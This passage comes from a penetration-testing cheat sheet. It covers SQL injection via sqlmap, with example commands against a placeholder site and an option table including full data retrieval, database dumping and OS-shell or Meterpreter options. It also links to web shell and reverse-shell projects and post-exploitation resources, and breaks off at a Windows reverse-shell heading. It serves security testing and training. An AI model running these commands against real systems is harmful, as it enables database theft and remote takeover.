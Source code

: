 To successfully inject a web shell, the current database user must have a write permission.

**Always make sure to properly close the surrounding code.**

Read this [article](https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF) to learn how to bypass WAF.

### sqlmap

Inject SQL code into request parameters:

```fundamental
sqlmap -a -u somesite.com/index.php?username=test&password=test

sqlmap -a -u somesite.com/index.php --data username=test&password=test

sqlmap -a -u somesite.com/index.php --data username=test&password=test -p password
```

| Option | Description |
| --- | --- |
| -u | Target URL |
| -H | Extra HTTP header |
| --data | Data string to be sent through POST |
| --cookie | HTTP Cookie header value |
| --proxy | Use a proxy to connect to the target URL (\[protocol://\]host\[:port\]) |
| -p | Testable parameter(s) |
| --level | Level of tests to perform (1-5, default: 1) |
| --risk | Risk of tests to perform (1-3, default: 1) |
| -a | Retrieve everything |
| -b | Retrieve DBMS banner |
| --dump-all | Dump all DBMS databases tables entries |
| --os-shell | Prompt for an interactive operating system shell |
| --os-pwn | Prompt for an OOB shell, Meterpreter, or VNC |
| --sqlmap-shell | Prompt for an interactive sqlmap shell |
| --wizard | Simple wizard interface for beginner users |

### Web Shells

Find out more about PHP shells from my other [project](https://github.com/ivan-sincek/php-reverse-shell).

Find out more about Java/JSP shells from my other [project](https://github.com/ivan-sincek/java-reverse-tcp).

### Send Payload With Python

Find out how to generate a `reverse shell payload` for Python and send it to a target machine from my other [project](https://github.com/ivan-sincek/send-tcp-payload).

## 4. Post Exploitation

### 4.1 Useful Websites

* [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
* [lolbas-project.github.io](https://lolbas-project.github.io)
* [gtfobins.github.io](https://gtfobins.github.io)

### Generate a Reverse Shell Payload for Windows OS
